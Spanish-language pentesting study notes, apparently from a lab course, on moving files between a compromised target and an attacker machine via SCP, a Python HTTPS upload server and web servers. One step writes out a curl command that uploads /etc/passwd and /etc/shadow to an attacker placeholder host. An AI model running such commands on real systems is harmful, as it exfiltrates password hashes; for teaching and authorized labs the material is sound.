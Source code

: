 4. Transferencia de archivos con SCP:
Una vez activo el servidor SSH en el atacante, se pueden transferir archivos desde la máquina objetivo hacia nuestro equipo (o al revés) indicando:
```
scp usuario@ip_remota:/ruta/archivo /ruta/local`
```
- /ruta/local: el archivo o carpeta que tienes en tu máquina actual y quieres copiar.
	- Ejemplo: /home/kali/mi_script.sh
- usuario: el nombre de usuario en la máquina remota a la que te conectas por SSH.
	- Ejemplo: root, admin, ubuntu

- ip_remota: la dirección IP o nombre de dominio de la máquina remota (la víctima o tu Pwnbox, según el caso).
	- Ejemplo: 10.10.10.32 o miservidor.com
- /ruta/destino: la carpeta donde quieres dejar el archivo en la máquina remota.
	- Ejemplo: /tmp/ o /home/admin/


# 6. Subidas de archivos
Hay situaciones en que queremos pasar los datos del target al atacante.
Existen diferentes formas: 
## A. Web Upload

1. Instalación del módulo
```
sudo python3 -m pip install --user uploadserver
```
Permite subir archivos vía web.

2. Creamos un certificado auto-firmado (https):
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
- Esto genera un certificado y clave en un solo archivo server.pem.
- Se recomienda no alojar el certificado en el mismo directorio de la web.

3. Preparamos el dierctorio para el servidor HTTPS:
```
mkdir https && cd https
```

4. Iniciamos el servidor con HTTPS:
```
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
- El servidor escucha en 0.0.0.0:443.
- La ruta para subir archivos: `/upload`.

5. Subimos archivos desde otra máquina (ej. /etc/passwd y /etc/shadow):
```
curl -X POST https://<IP_DEL_SERVIDOR>/upload \ 
-F 'files=@/etc/passwd' \ 
-F 'files=@/etc/shadow' \ 
--insecure
```
- *--insecure* se usa porque el certificado es auto-firmado.
# 7. Método Alternativo de Transferencia de Archivos con Servidor Web
- Linux suele traer Python o PHP instalados, por lo que iniciar un servidor web para transferir archivos es fácil.
- Si el servidor comprometido ya es web, podemos colocar los archivos en el directorio web y descargarlos desde nuestra máquina (Pwnbox).
- Mini servidores web ofrecen flexibilidad: permiten cambiar la ubicación del webroot y el puerto rápidamente, aunque con menor seguridad.
